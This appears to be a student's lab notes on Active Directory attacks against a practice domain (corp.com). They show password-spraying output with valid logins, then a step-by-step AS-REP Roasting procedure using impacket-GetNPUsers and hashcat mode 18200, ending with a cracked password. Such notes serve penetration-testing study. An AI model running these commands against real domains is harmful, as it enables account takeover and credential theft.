 ```hlt:18,19
Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

**NOTE: if network error occurs, ensure encoding of usernames.txt is ANSI**

### AS-REP Roasting
#### Kerberos Pre-Authentication: AS-REP contains session key and TGT
If _Do not require Kerberos preauthentication_ is enabled, we can perform AS-REP Roasting by sending AS-REQ as a domain user, receive AS-REP, and performing offline password guessing.

#### AS-REP Roasting from Kali Using `impacket-GetNPUsers`
##### Step 1: Grab AS-REP hash from user with vulnerable account 
###### Command: `impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete`
```hlt:7
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

##### Step 2: Determine hashcat mode for AS-REP hash
###### Command: `hashcat --help | grep -i "Kerberos"`
Result: 18200
```hlt:8
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

##### Step 3: Crack dat hash 
###### Command: `sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
Result: 
`Flowers1`
